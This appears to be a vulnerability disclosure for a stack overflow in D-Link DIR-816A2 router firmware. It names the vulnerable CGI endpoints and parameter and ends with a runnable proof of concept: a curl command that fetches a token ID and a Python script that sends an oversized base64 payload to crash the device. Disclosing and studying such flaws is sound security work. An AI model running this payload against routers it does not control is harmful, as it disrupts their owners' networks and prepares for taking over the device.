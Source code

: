 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi and /goform/form2Wl5BasicSetup.cgi.  With the setSecurity function,the contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2WlanBasicSetup.cgi' #/goform/form2Wl5BasicSetup.cgi

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '4',
    'pskValue': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.

